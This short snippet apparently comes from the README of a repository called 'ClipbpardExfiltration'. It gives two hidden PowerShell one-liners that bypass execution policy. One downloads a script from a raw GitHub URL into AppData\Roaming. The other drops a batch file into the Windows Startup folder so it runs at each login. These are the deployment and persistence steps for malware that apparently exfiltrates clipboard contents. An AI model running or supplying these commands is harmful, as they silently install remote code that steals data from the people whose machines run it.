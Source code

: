 Save update.ps1 to $env:userprofile\AppData\Roaming 

        powershell -w h -NoP -NonI -Ep Bypass 'Invoke-WebRequest -Uri "https://raw.githubusercontent.com/offport/ClipbpardExfiltration/main/update.ps1" -OutFile "$env:userprofile\AppData\Roaming\update.ps1" -UseBasicParsing'

Then save the bat file into startup programs

    powershell -w h -NoP -NonI -Ep Bypass 'Invoke-WebRequest -Uri "https://raw.githubusercontent.com/offport/ClipbpardExfiltration/main/per.bat" -OutFile "$env:APPDATA\Microsoft\Windows\Start` Menu\Programs\Startup\per.bat" -UseBasicParsing'
